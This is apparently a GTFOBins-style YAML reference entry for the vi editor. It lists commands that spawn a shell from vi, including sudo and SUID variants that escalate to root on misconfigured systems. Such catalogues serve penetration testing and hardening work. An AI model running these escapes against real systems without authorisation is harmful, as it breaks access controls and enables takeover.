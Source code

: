 ```yaml
---
functions:
  exec-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
---
```

